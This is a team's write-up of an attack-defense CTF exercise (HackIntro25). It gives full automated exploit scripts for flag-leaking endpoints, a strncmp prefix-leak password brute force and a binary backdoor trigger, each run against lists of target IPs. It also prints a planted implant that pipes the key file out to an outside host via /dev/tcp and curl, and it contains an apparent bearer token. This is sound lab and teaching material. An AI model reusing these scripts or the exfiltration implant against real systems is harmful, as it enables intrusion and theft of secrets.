








# HackIntro25 CTF Writeup – Team09

## Team Members
```bash
-Ματέους Βράζεν
-Χρήστος Τάσσης
-Αθανάσιος Παπούλιας
-Άγγελος Τσούκο
-Θωμάς Καραγιάννης
-Παναγιώτης Νεκτάριος Ρόσση
```
## Getting Started

At the outset of the competition, our primary objective was to map out the network and identify all potential targets and services. We approached this systematically:

1. **Network Enumeration:**  
   We began by scanning the subnet to discover live hosts. Using the command:

   `fping -a -g 10.219.255.0/24 2>/dev/null`

   This allowed us to quickly identify which IP addresses were responsive within the CTF environment. We chose `fping` for its speed and ability to handle large address ranges efficiently.

2. **Service Discovery:**  
   With a list of active hosts, we proceeded to scan for open ports and running services using `nmap`. Our scans focused on the `10.219.255.XX` range, which we suspected to be the main arena for the CTF services. We used both default and custom port ranges to ensure we didn't miss non-standard services. This step was crucial for building a service map and prioritizing targets.

3. **Privilege Escalation Recon:**  
   After gaining initial access as the `ctf` user on a target machine, we checked for possible privilege escalation vectors. Running `sudo -l` revealed which commands the `ctf` user could execute with elevated privileges. For example:

   `sudo -u 'user_name' /bin/bash`

   This finding was significant, as it enabled us to spawn shells as other users, granting access to otherwise restricted directories such as `/opt/services`. This directory structure was a common location for service binaries and flag files.

4. **Service Analysis Preparation:**  
   With access to multiple user environments, we systematically explored each `/opt/services` directory. We catalogued binaries, configuration files, and scripts for further analysis. This groundwork allowed us to plan both exploitation and defense strategies for each service.

## Exploited Services: pwnazon , bananananana, auth & racehorse

### Exploit Summary

We successfully exploited three services during the CTF: `pwnazon` , `bananananana` and `auth`.

#### 1. `/key` Endpoint Exploit (bananananana & pwnazon)

- We discovered that accessing the `/key` endpoint on both services (on ports 8003 and 8005) returned the flag directly.
- The exploit was first discovered on the `bananananana` service. Once confirmed, we applied the same logic to `pwnazon` and it worked.
- Although the discovery was early, we delayed patching and automation, which gave other teams the opportunity to exploit us.

#### 2. `add_item=6` Parameter in pwnazon

- A team member noticed that sending a POST request with `add_item=6` to `actions.php` exposed the flag in `cart.php`.
- This was discovered through intuition and browser dev tools. We suspect the service contained weak logic allowing flag leakage based on item ID.

#### 3. Prefix Information Leak via `strncmp()` in auth

- The service compared credentials using `strncmp()` with the user’s input length.
- If an attacker guessed the correct prefix of the password, the server’s response changed, leaking information.
- This enabled an efficient brute-force attack for the admin password.

#### 4. Bakdor Exploit ( racehorse )

- After decompiling the binary using ghidra and looking at the code, we quickly found out that after iterating 500 times the main loop, there was a "Bakdor" section that read and printed the containts of the key file.

### Final Exploit Scripts

#### `/key` for banana, pwnazon and exploit number 2 (`add_item=6`):

After identifying both issues, we merged the logic into a single automated script (`pwnazon_banana_attack.sh`):

```bash
#!/bin/bash
# Configuration variables
MAX_RETRIES=3
RETRY_DELAY=2
RATE_LIMIT=1
TARPIT_THRESHOLD_MS=3500
USER_AGENT="Mozilla/5.0 LegitCTFTeam"
SUBMIT_URL="https://ctf.hackintro25.di.uoa.gr/submit"
API_KEY="e63ed0be1b6ed94f8f6f05b55b198475373c42fee39ce9439d7201a9c735550a"
pending_flags=()

while true; do
  echo "[$(date)] === Starting pwnazon + banana attack round ==="
  for i in 2 6 10 14 18 22 26 30 38 42 46 50 54 58 62; do
    ip="10.219.255.$i"
    for port in 8003 8005; do
      key=$(curl -s --max-time 2 "http://$ip:$port/key")
      if [ -n "$key" ]; then
        echo "[$(date)] KEY from $ip:$port: $key"
        response=$(curl -s -X POST "$SUBMIT_URL"           -H "Content-Type: application/json"           -H "Authorization: Bearer $API_KEY"           -d "{"flag": "$key"}")
        echo "[$(date)] Submit response: $response"
        if echo "$response" | grep -q "504"; then
          pending_flags+=("$key")
        fi
      fi
    done

    if nc -z -w2 "$ip" 8005; then
      curl -s --max-time 5 -X POST -d "add_item=6" "http://$ip:8005/actions.php" -A "$USER_AGENT" > /dev/null
      output=$(curl -s -w "\n%{http_code}" --max-time 5 "http://$ip:8005/cart.php" -A "$USER_AGENT")
      http_code=$(echo "$output" | tail -n1)
      content=$(echo "$output" | head -n -1)
      if [[ "$http_code" =~ ^2 ]]; then
        flag=$(echo "$content" | grep -a -oP "FLAG\s*-\s*\K[^\s<]+")
        if [ -n "$flag" ]; then
          response=$(curl -s -X POST "$SUBMIT_URL"             -H "Content-Type: application/json"             -H "Authorization: Bearer $API_KEY"             -d "{"flag": "$flag"}")
          if echo "$response" | grep -q "504"; then
            pending_flags+=("$flag")
          fi
        fi
      fi
    fi
    sleep $RATE_LIMIT
  done

  for flag in "${pending_flags[@]}"; do
    for ((retry=1; retry<=MAX_RETRIES; retry++)); do
      response=$(curl -s -X POST "$SUBMIT_URL"         -H "Content-Type: application/json"         -H "Authorization: Bearer $API_KEY"         -d "{"flag": "$flag"}")
      if ! echo "$response" | grep -q "504"; then
        break
      fi
      sleep $RETRY_DELAY
    done
  done
  pending_flags=()
  sleep 600
done
```

#### Script for `auth`:

After discovering the prefix-leak in the `auth` service, we automated the attack with a single Python script (`grab_flags.py`):

```python
  #!/usr/bin/env python3
    """
    grab_flags.py  –  HackIntro25 CTF helper
    ────────────────────────────────────────
    * brute-forces _admin on each host in TARGETS
    * fetches "Here is the flag: <hex>"
    * saves each flag to flags.txt (one per line, no repeats)
    * POSTs the flag to the scoreboard via std-lib urllib
    """

    import socket
    import string
    import time
    import re
    import json
    import urllib.request
    import urllib.error
    import os
    from datetime import datetime

    BASE_IP   = "10.219.255."
    PORT      = 8000
    TARGETS   = [2, 6, 10, 14, 18, 30, 38, 42, 46, 50, 54, 58, 62]
    ADMIN     = "_admin"
    CHARSET   = string.printable
    MAX_PWLEN = 3  # stop after length-3 pw

    SUBMIT_URL = "https://ctf.hackintro25.di.uoa.gr/submit"
    TOKEN      = os.getenv("HACKINTRO25_TOKEN")  # export this before running

    FLAG_RE = re.compile(r"flag:\s*([0-9a-f]{32,})", re.I)

    def now() -> str:
        return datetime.now().strftime("%H:%M:%S")

    def submit_flag(flag: str, ip: str) -> bool:
        if not TOKEN:
            print("[-] TOKEN missing – set HACKINTRO25_TOKEN", flush=True)
            return False
        payload = json.dumps({"flag": flag}).encode()
        headers = {
            "Content-Type": "application/json",
            "Authorization": f"Bearer {TOKEN}",
        }
        req = urllib.request.Request(
            SUBMIT_URL, data=payload, headers=headers, method="POST"
        )
        try:
            with urllib.request.urlopen(req, timeout=5) as resp:
                if 200 <= resp.status < 300:
                    print(f"[✓] {ip} → submitted OK", flush=True)
                    body = resp.read(60).decode("utf-8", "ignore")
                    print(f"[>] {ip} → response body: {body}", flush=True)
                    return True
                body = resp.read(60).decode("utf-8", "ignore")
                print(f"[!] {ip} → HTTP {resp.status}: {body}", flush=True)
        except urllib.error.HTTPError as e:
            try:
                err_body = e.read(60).decode("utf-8", "ignore")
            except:
                err_body = "<could not read error body>"
            print(f"[!] {ip} → HTTP {e.code}: {err_body}", flush=True)
        except urllib.error.URLError as e:
            print(f"[!] {ip} → submit failed ({e.reason})", flush=True)
        except TimeoutError:
            print(f"[!] {ip} → submit timed out", flush=True)
        return False

    def try_login(host: str, user: str, password: str):
        try:
            s = socket.create_connection((host, PORT), timeout=3)
            s.recv(1024)
            s.sendall(f"auth {user} {password}\n".encode())
            time.sleep(0.2)
            return s, s.recv(1024).decode(errors="ignore")
        except (socket.timeout, OSError):
            return None, ""

    def brute_force_host(host: str):
        print(f"[*] {now()} Checking {host}…", flush=True)
        pwd, last_resp = "", ""
        while len(pwd) < MAX_PWLEN:
            for c in CHARSET:
                test = pwd + c
                sock, resp = try_login(host, ADMIN, test)
                if "Authenticated" in resp:
                    print(f"[+] {host} → password found: {test!r}", flush=True)
                    time.sleep(0.2)
                    sock.sendall(b"flag\n")
                    time.sleep(0.2)
                    flag_resp = sock.recv(2048).decode(errors="ignore")
                    sock.close()
                    m = FLAG_RE.search(flag_resp)
                    if not m:
                        print(f"[-] {host} → invalid flag line: {flag_resp!r}", flush=True)
                        return
                    flag = m.group(1)
                    already = set()
                    if os.path.exists("flags.txt"):
                        with open("flags.txt", encoding="utf-8") as fp:
                            already = {ln.strip() for ln in fp}
                    if flag not in already:
                        with open("flags.txt", "a", encoding="utf-8") as fp:
                            fp.write(flag + "\n")
                        print(f"[+] saved to flags.txt → {flag}", flush=True)
                    submit_flag(flag, host)
                    return
                elif ("Couldn't authenticate" not in resp and resp.strip() and resp != last_resp):
                    pwd += c
                    last_resp = resp
                    print(f"[>] {host} → partial pw: {pwd!r}", flush=True)
                    if sock:
                        sock.close()
                    break
                if sock:
                    sock.close()
            else:
                print(f"[!] {host} → no progress, giving up", flush=True)
                break

    def main():
        for suffix in TARGETS:
            brute_force_host(f"{BASE_IP}{suffix}")
            print("-" * 42, flush=True)

    if __name__ == "__main__":
        main()
```

#### Script for `racehorse`:

After discovering the exploit for the `racehorse`, we automated it using a brute force approach for all machines using python:

```python
#!/usr/bin/env python3
"""
racehorse_multi.py – Automated Bakdor Exploit for HackIntro25 CTF
─────────────────────────────────────────────────────────────────
* Connects to each target host on the racehorse service port
* Iterates the main loop 500 times to trigger the Bakdor
* Reads and prints the contents of the key file (flag)
* Submits the flag to the scoreboard
"""

import socket
import time
import re
import json
import urllib.request
import urllib.error

PORT = 8004
CHOICE_TO_SEND = b"1\n"
NUM_INTERACTIONS = 500
BASE_IP = "10.219.255."
LAST_OCTETS = [2, 6, 10, 14, 18, 22, 26, 30, 34, 38, 42, 46, 50, 54, 58, 62]
while True:
    for octet in LAST_OCTETS:
        HOST = BASE_IP + str(octet)
        print(f"\n--- Processing HOST: {HOST} ---")
        print(f"Attempting to trigger backdoor on {HOST}:{PORT} by sending '{CHOICE_TO_SEND.decode().strip()}' {NUM_INTERACTIONS} times.")

        s = None
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(10)
            print(f"Attempting to connect to {HOST}:{PORT}...")
            s.connect((HOST, PORT))
            print(f"Connected to server {HOST}:{PORT}.")

            initial_data = b""
            try:
                s.settimeout(5)
                while not initial_data.endswith(b"> "):
                    chunk = s.recv(4096)
                    if not chunk:
                        print("Server closed connection during initial phase.")
                        raise ConnectionAbortedError("Server closed connection during initial phase.")
                    initial_data += chunk
                    if len(initial_data) > 16384:
                        print("Exceeded max initial data length. Moving on.")
                        break
            except socket.timeout:
                print("Timeout waiting for the initial menu prompt.")
                if not initial_data:
                    print(f"No initial data received from {HOST}. Skipping further interactions for this host.")
                    s.close()
                    continue

            print("Initial server output:\n", initial_data.decode(errors='ignore'))

            captured_final_output = b""

            for i in range(NUM_INTERACTIONS):
                print(f"Sending choice {i + 1}/{NUM_INTERACTIONS} to {HOST}...")
                s.sendall(CHOICE_TO_SEND)

                time.sleep(0.05)

                if i < NUM_INTERACTIONS - 1:
                    response_chunk = b""
                    try:
                        s.settimeout(2)
                        while not response_chunk.endswith(b"> "):
                            part = s.recv(1024)
                            if not part:
                                print(f"Server {HOST} closed connection unexpectedly during interaction {i+1}.")
                                raise ConnectionAbortedError(f"Server {HOST} closed connection during interaction {i+1}")
                            response_chunk += part
                            if len(response_chunk) > 8192:
                                print("Response chunk too large, breaking.")
                                break
                        print(response_chunk.decode(errors='ignore'))
                    except socket.timeout:
                        print(f"(Timeout waiting for full response after choice {i+1} from {HOST}, proceeding)")
                        print(response_chunk.decode(errors='ignore'))

                    if b"flag{" in response_chunk.lower() or b"key{" in response_chunk.lower():
                        print(f"\nFlag pattern found early in responses from {HOST}!")
                        captured_final_output = response_chunk
                        break
                else:
                    print(f"Sent {NUM_INTERACTIONS}th choice to {HOST}. Attempting to read all subsequent output for backdoor...")
                    s.settimeout(5)
                    temp_output_after_interactions = b""
                    while True:
                        try:
                            part = s.recv(4096)
                            if not part:
                                print(f"Server {HOST} closed connection (this is expected if backdoor triggered and exited).")
                                break
                            temp_output_after_interactions += part
                        except socket.timeout:
                            print(f"Timeout waiting for more backdoor output from {HOST}. Assuming all received.")
                            break
                        except socket.error as e:
                            print(f"Socket error during final read from {HOST}: {e}. Assuming connection closed.")
                            break
                    captured_final_output = temp_output_after_interactions
                    break

            if captured_final_output:
                print(f"\n--- Captured Output from {HOST} (from backdoor attempt or early flag) ---")
                decoded_output = captured_final_output.decode(errors='ignore')
                print(decoded_output)
                if b"flag{" in captured_final_output.lower() or \
                b"key{" in captured_final_output.lower() or \
                b"bakdor" in captured_final_output.lower() or \
                "flag{" in decoded_output.lower() or \
                "key{" in decoded_output.lower() or \
                "bakdor" in decoded_output.lower():
                    print(f"FLAG PATTERN OR 'BAKDOR' FOUND IN THE CAPTURED OUTPUT FROM {HOST}!")

                    extracted_flag = None
                    lines = decoded_output.splitlines()
                    bakdor_marker_line_content = "bakdor"

                    try:
                        bakdor_line_index = -1
                        for i, line_content in enumerate(lines):
                            if bakdor_marker_line_content.lower() in line_content.lower():
                                bakdor_line_index = i
                                break

                        if bakdor_line_index != -1 and bakdor_line_index + 1 < len(lines):
                            potential_flag = lines[bakdor_line_index + 1].strip()
                            if potential_flag and len(potential_flag) >= 32 and all(c in "0123456789abcdefABCDEF" for c in potential_flag):
                                extracted_flag = potential_flag
                            elif potential_flag:
                                print(f"Potential flag '{potential_flag}' found but failed validation (length/hex).")

                    except Exception as e:
                        print(f"Error during new flag extraction logic: {e}")

                    if extracted_flag:
                        print(f"Extracted flag from {HOST}: {extracted_flag}")

                        submit_url = "https://ctf.hackintro25.di.uoa.gr/submit"
                        auth_token = "auth_token"
                        headers = {
                            "Content-Type": "application/json",
                            "Authorization": f"Bearer {auth_token}",
                            "Accept": "application/json"
                        }
                        payload_dict = {"flag": extracted_flag}
                        payload_bytes = json.dumps(payload_dict).encode('utf-8')

                        req = urllib.request.Request(submit_url, data=payload_bytes, headers=headers, method='POST')

                        response_status = None
                        response_text = ""

                        try:
                            print(f"Submitting flag: {extracted_flag} to {submit_url} for host {HOST} using urllib")
                            with urllib.request.urlopen(req, timeout=15) as response:
                                response_status = response.status
                                response_text = response.read().decode('utf-8', errors='ignore')

                            print(f"Flag submission response for {HOST} ({extracted_flag}):")
                            print(f"  Status Code: {response_status}")
                            print(f"  Response Body: {response_text}")

                        except urllib.error.HTTPError as e:
                            response_status = e.code
                            try:
                                response_text = e.read().decode('utf-8', errors='ignore')
                            except Exception:
                                response_text = f"HTTPError reason: {e.reason} (could not read error body)"
                            print(f"HTTP Error submitting flag for {HOST} ({extracted_flag}): Status {e.code} - {e.reason} - Body: {response_text}")
                        except urllib.error.URLError as e:
                            response_text = f"URLError reason: {e.reason}"
                            print(f"URL Error submitting flag for {HOST} ({extracted_flag}): {e.reason}")
                        except socket.timeout:
                            response_text = "Request timed out."
                            print(f"Timeout during flag submission for {HOST} ({extracted_flag}).")
                        except Exception as e:
                            response_text = f"Unexpected error during submission: {str(e)}"
                            print(f"An unexpected error occurred during flag submission for {HOST}: {e}")

                        with open("submission_log.txt", "a", encoding="utf-8") as log_f:
                            log_f.write(f"Timestamp: {time.strftime('%Y-%m-%d %H:%M:%S')}\n")
                            log_f.write(f"HOST: {HOST}\n")
                            log_f.write(f"Extracted Flag: {extracted_flag}\n")
                            log_f.write(f"Submission URL: {submit_url}\n")
                            if response_status:
                                log_f.write(f"Status Code: {response_status}\n")
                            log_f.write(f"Response Text: {response_text}\n")
                            log_f.write("-" * 30 + "\n\n")
                    else:
                        print(f"A keyword (flag/key/bakdor) was found in output from {HOST}, but a valid flag was not extracted from the next line.")
                        print("The full output that contained the keyword was:")
                        print(decoded_output)

                        with open("potential_flags_no_regex_match.txt", "a", encoding="utf-8") as f_out:
                            f_out.write(f"--- HOST: {HOST} (Keyword found, but no specific flag{{...}} pattern extracted) ---\n")
                            f_out.write(f"Timestamp: {time.strftime('%Y-%m-%d %H:%M:%S')}\n")
                            f_out.write("Full output:\n")
                            f_out.write(decoded_output + "\n")
                            f_out.write("-" * 30 + "\n\n")
            else:
                print(f"\nNo specific final output was captured by the backdoor logic or early flag detection from {HOST}.")

            s.close()
            print(f"\nConnection to {HOST} closed.")

        except ConnectionRefusedError:
            print(f"Connection refused by {HOST}:{PORT}. Server might be down or not listening.")
        except ConnectionAbortedError as e:
            print(f"Script aborted for {HOST}: {e}")
        except socket.timeout:
            print(f"A socket operation timed out for {HOST}:{PORT}.")
        except socket.error as e:
            print(f"Socket error with {HOST}:{PORT}: {e}")
        except Exception as e:
            print(f"An unexpected error occurred with {HOST}:{PORT}: {e}")
        finally:
            if s and s.fileno() != -1:
                try:
                    s.close()
                    print(f"Socket to {HOST} closed in finally block.")
                except socket.error as e:
                    print(f"Error closing socket to {HOST} in finally block: {e}")
            print(f"--- Finished processing HOST: {HOST} ---")
        time.sleep(1)
    time.sleep(900)

```

### Patch & Defense

We patched the `/key` endpoints first in `bananananana`, then replicated the patch for `pwnazon`. The patch involved:

- Restricting direct access to `/key` based on IP or session token.
- Removing or renaming the key file.
- Adding permission controls.

Despite these patches, our defense was insufficient:

- We were compromised via a script planted in our system:

```bash
#!/usr/bin/env bash
while true; do
    date >/dev/tcp/10.219.254.57/42043
    curl https://ctf.hackintro25.di.uoa.gr/submit -H "Content-Type: application/json"       -H "Authorization: Bearer ..."       -d "{"flag": "$(cat /opt/services/pwnazon/key)"}"       >/dev/tcp/10.219.254.57/42043 2>&1
    sleep 900
done
```

- This script leaked our flag every 15 minutes. We failed to detect it due to not inspecting the file system, cron jobs, or outbound traffic.

We learned it was planted through a reverse shell obtained by exploiting the `powerball` service. It’s also possible that `pwnazon` was compromised using cookie injection, though we weren’t able to confirm it.

##### Auth

After confirming the information leak in the `auth` service, we took several steps to patch the vulnerability:

- **Immediate mitigation:**  
  Using Ghidra, we NOPped (disabled) the code section responsible for printing the flag when the `flag` command was issued. This prevented other teams from retrieving our flag, even if they managed to authenticate as `_admin`.

- **Service restart:**  
  We then restarted the patched service to deploy the fix (or so we thought). However, due to time pressure, we did not thoroughly verify that the patch was in effect on all hosts.

Despite these efforts, our defense was incomplete:

- **Underlying vulnerability remained:**  
  The actual root cause—the `strncmp()` password comparison information leak—was never fixed. This meant attackers could still brute-force credentials and potentially exploit the service for other purposes, even if they couldn't obtain the flag directly.


# PowerBall

This is what we've managed to discover regarding PowerBall



We saw that the program takes two optional input arguments, when the argument count has two or more arguments (a1 > 2) and if it's true we enter an if statement.

dest being the key file directory destination and the second argument being an custom captcha integer value, since we can't control the input arugments (most likely) while entering the service it doesn't help much with exploitation.


However there are a few things of note like for example a secret 42 option.




It's an function that asks us to write the flag in order for it to print the flag. The user input begins at sub_80488ED();

But it's a custom function so let's see what sub_804889D(); does




It does use a printf but it flushes stdout for some reason, we weren't certain how it could be exploited.

also for user input it uses ***sub_80488ED()***



This program has an off by one vulnerability because the buffer is from 0 to 255 bytes but it reads up to 256 bytes, we didn't find a clever way to exploit it or find a way to crash the service with it in time. 


This function is being reused by a lot of user inputs as seen by here.




Overall here is a summary of things I wish we had the time to analyze futher

1) Checking how fflush(stdout) couldve been exploited
2) Finding how we can exploit the user input that's off by one byte, either crashing or getting a flag somehow
3) Analyze how the random number generator works


# Mapflix

As for Mapflix we didn't manage to find an exploit either but we learned that it does read bytes from a header using ***!MPX*** characters. The header that starts with that identifier is an file format called Microsoft Project Exchange .mpx most likely (https://en.wikipedia.org/wiki/MPX_Microsoft_Project_Exchange_File_Format)

Let's see a quickrundown of how we find that out



For each options it expects to read an "y" or "Y" character, when we input "y"/"Y" for the first option we see this.




And inside the sub_8048CFC function we see this





we see the ***"MPX!"*** identifier, regardless what it is we could've made a payload that is accepted and processed by the program. But we could make it so it causes a crash when it starts processing garbage data.

Here is a summary of what we wish we could analyze further

1) Find out more documentation regarding the MPX file format
2) Create some denial of service exploit with it if we couldn't find any more info outside of the bianry
3) Replicate the exploit that we got hit with during the CTF event


---

### Patch Attempt for `racehorse` Brute Force Exploit

To mitigate the brute-force exploit in the `racehorse` service, we downloaded the binary localy and analyzed it using Ghidra. We identified the vulnerable code responsible for printing the flag and patched it by replacing the relevant instructions with NOPs (`\x90` bytes), effectively disabling flag disclosure.

Despite deploying this patch, we continued to observe exploit attempts against our service. This indicated the presence of an additional, unidentified vulnerability in `racehorse`.

### Strategy Breakdown

Our overall strategy had some critical shortcomings:

- **Early chaos**: The first hours were disorganized, without clearly assigned roles or a plan.
- **Workflow pattern**:
  1. Each member explored services for exploits.
  2. If found, another automated it.
  3. Finally, someone tried to patch it.
- **Loose ownership**: Over time, members stuck with the service they initially touched.
- **Poor tool usage**: We underutilized tools for network analysis like nmap and wireshark.
- **Exploit detection**: We did not monitor system files, logs, or network behavior enough to detect implants.
- **Automation focus**: We spent too much time on automating exploits and too little on defending and analyzing what others were doing to us.

### Missed Exploits (Suspected but Not Confirmed)

We suspect additional vulnerabilities existed:

- Possible cookie injection or session manipulation in `pwnazon`.
- Potential memory corruption or race conditions in `racehorse`.
- The `Horse_is_awesome` and `give_flag` functions could potentially give the flag in `racehorse`.

However, due to time constraints and debugging issues, we were unable to confirm or exploit these.

### Lessons Learned

- **Assign roles early**: Exploiters, patchers, defenders, analysts.
- **Monitor your machines**: Use tools like `ps`, `netstat`, `crontab`, and filesystem diffs.
- **Patch early**: Don’t delay fixing known bugs like open endpoints.
- **Audit permissions**: In powerball, attackers likely exploited service misconfigurations to gain reverse shell access, which they used to exfiltrate internal files like /opt/services/.../key. We should have identified and patched this earlier.
- **Don’t ignore the enemy**: We focused too much on our own exploits and ignored others’ attacks.
- **Backdoor detection is not enough**: If a malicious script is discovered, we can consider countermeasures such as replacing the flag with a fake one, disabling the callback, or even redirecting the connection back to us for monitoring or honeypot purposes (depending on the rules).
- **Share knowledge and rotate roles**: Many teammates got stuck on the same service for too long. Rotating would help bring fresh eyes to a problem
- **Use advanced tools early**: Static/dynamic analysis tools like Ghidra should have been used sooner to identify binary flaws.
- **To do better preparations before the event**: From reading up existing past CTF events, and having some ready script templates that are flexible for many contexts would save a lot of precious time.
- **To have different expectations regarding our tasks**: Overall unecessary stress and the wrong expectations as to what we we're supposed to do, it would've saved us 1-2 hours of adjustment on how to setup our operations.
- **Attacking is easier than defending**: Finding exploits in our binaries and websites then attacking others with our exploits was easier than patching them. Even more so when despite capturing payloads with different exploits, we had trouble replicating them or even patching our websites or binaries against them.
---
